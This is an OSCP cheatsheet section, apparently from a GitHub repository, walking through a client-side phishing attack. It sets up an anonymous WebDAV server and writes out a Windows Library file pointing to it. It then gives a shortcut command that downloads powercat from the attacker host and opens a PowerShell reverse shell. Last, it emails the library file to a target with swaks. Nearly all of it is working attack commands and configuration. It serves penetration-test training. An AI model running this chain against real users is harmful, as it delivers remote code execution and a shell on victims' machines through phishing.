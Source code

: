 # 07 - Client Side Attack

Index
- [Phishing Lab](#Phishing-Lab)
    - [Authenticated attack to mailserver](#Authenticated-attack-to-mailserver)

## Phishing Lab
### Authenticated attack to mailserver
Scenario:
 - WebDav resource with malicious shortcut file
 - Reverse Shell command for Windows
 - Valid user for send email

Create WebDav resource:
``` bash
mkdir ./webdav
/home/user/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav
```

Create a Windows Library File and put in webdav DocumentRoot:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<LibraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
		<searchConnectorDescription>
			<isDefaultSaveLocation>true</isDefaultSaveLocation>
			<isSupported>false</isSupported>
			<simpleLocation>
				<url>http://$WEBDAV_SERVER</url>
			</simpleLocation>
		</searchConnectorDescription>
	</searchConnectorDescriptionList>
</libraryDescription>
```

Create a shortcut file (from Windows desktop), with a reverse shell command:
``` powershell
# reverse shell example, powercat based
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 1337 -e powershell"
```

![shortcut](https://github.com/roccosicilia/OSCP_cheatsheet/blob/main/assets/link-file-reverse-shell.png?raw=true "shortcut")

Send email via mail server:
``` bash
swaks -to $destination --from $sender -ap --attach @config.Library-ms --server $MAILSRV --suppress-data
```